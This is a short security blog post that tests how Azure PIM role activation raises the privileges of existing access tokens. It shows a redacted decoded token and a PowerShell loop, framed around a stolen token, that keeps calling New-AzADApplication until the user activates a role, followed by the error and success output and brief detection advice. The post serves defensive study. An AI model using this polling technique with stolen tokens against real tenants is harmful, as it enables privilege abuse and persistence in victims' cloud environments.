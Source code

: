 ```yaml
---
layout: post
title: Are you sure you know Azure PIM?
date: '2024-01-26 12:12:09'
---
```


Azure PIM is good, but there is always **_but_**

Everything in Azure based on tokens, when you authenticate with you modern CBA method you will get again token back which will give you access to resources. What is important - administrative access have option to "escalate" tokens for some time to do **real job** and your access expire. But is it really expire? Or just wait until you will _escalate_ again?

It is require ID P2/Governance license .. 

And not working as moste people think .. It DOES NOT create new token, it is juste escalate ALL tokens which is connected to elevated account!

Really good blog from Cody Burkard describe main points:
https://codyburkard.com/blog/jitprivilegeescalation/

But lets test! =)

Get token!

![Access Token and refresh . . jepp refresh always come with it](../images/03/bilde1.png){: .mx-auto.d-block :}

Token info (redacted):

>{
  "aud": "https://management.core.windows.net/",
  "iss": "https://sts.windows.net/",
  "iat": 1706522835,
  "nbf": 1706522835,
  "exp": 1706527683,
  "acr": "1",
  "aio": "A",
  "amr": [
    "pwd",
    "mfa"
  ],
  "appid": "1",
  "appidacr": "0",
  "family_name": "Borodai",
  "given_name": "Artem",
  "groups": [
    "e"
  ],
  "idtyp": "user",
  "ipaddr": "1",
  "name": "Artem Borodai",
  "oid": "c",
  "puid": "1",
  "rh": "0.A",
  **"scp": "user_impersonation",**
  "sub": "6",
  "tid": "4",
  "unique_name": "artem.borodai@blinq",
  "upn": "artem.borodai@blinq",
  "uti": "P",
  "ver": "1.0",
  "wids": [
    "b"
  ],
  "xms_cae": "1",
  "xms_cc": [
    "CP1"
  ],
  "xms_filter_index": [
    "129"
  ],
  "xms_rd": "0.4",
  "xms_ssm": "1",
  "xms_tcdt": 1614601636
>}

Lets play with access =)

![Access denied, try PIM, I am waiting](../images/03/bilde3.png){: .mx-auto.d-block :}

Nope, 403, which is right user not PIMed . . 

And if we steal token, how we will find out if user is pimed??? Just run script =)

>while (1 -eq 1 ){
>$command=try{New-AzADApplication -DisplayName blinQ *>&1}catch{$_}  $command | Out-File c:\CIS\iwanttoknow.txt -Append
start-sleep -seconds 10
}

Then user PIMed . . 

And jepp - token escalated without any additional moves . . 

>Az.MSGraph.internal\New-AzADApplication : Insufficient privileges to complete the operation.
>At C:\Program Files\WindowsPowerShell\Modules\Az.Resources\6.11.1\MSGraph.Autorest\custom\New-AzADApplication.ps1:698 char:5
>+     $app = Az.MSGraph.internal\New-AzADApplication @PSBoundParameters
>+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
>    + CategoryInfo          : InvalidOperation: ({ body = {
  "...reADMyOrg"
} }:<>f__AnonymousType12`1) [New-AzADApplication_CreateExpanded], Exception
    + FullyQualifiedErrorId : Authorization_RequestDenied,Microsoft.Azure.PowerShell.Cmdlets.Resources.MSGraph.Cmdlets.NewAzADApplication_CreateExpanded
Az.MSGraph.internal\New-AzADApplication : Insufficient privileges to complete the operation.
At C:\Program Files\WindowsPowerShell\Modules\Az.Resources\6.11.1\MSGraph.Autorest\custom\New-AzADApplication.ps1:698 char:5
>+     $app = Az.MSGraph.internal\New-AzADApplication @PSBoundParameters
>+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
>    + CategoryInfo          : InvalidOperation: ({ body = {
  "...reADMyOrg"
>} }:<>f__AnonymousType12`1) [New-AzADApplication_CreateExpanded], Exception
    + FullyQualifiedErrorId : Authorization_RequestDenied,Microsoft.Azure.PowerShell.Cmdlets.Resources.MSGraph.Cmdlets.NewAzADApplication_CreateExpanded
>
>DisplayName Id                                   AppId                               
>----------- --                                   -----                               
>blinQ   694f2d2f-e5x
>
>
>
>DisplayName Id                                   AppId                               
>----------- --                                   -----                               
>blinQ   a0b7f9c7-e3x

Detection:

Only unusual IP, and of course Admin access should be limited to PAW IP (which I never saw in my life . . )

![Ups I did it again](../images/03/bilde4.png){: .mx-auto.d-block :}

P.S: If it was interesting for you - read carefully Cody blog up there . . 
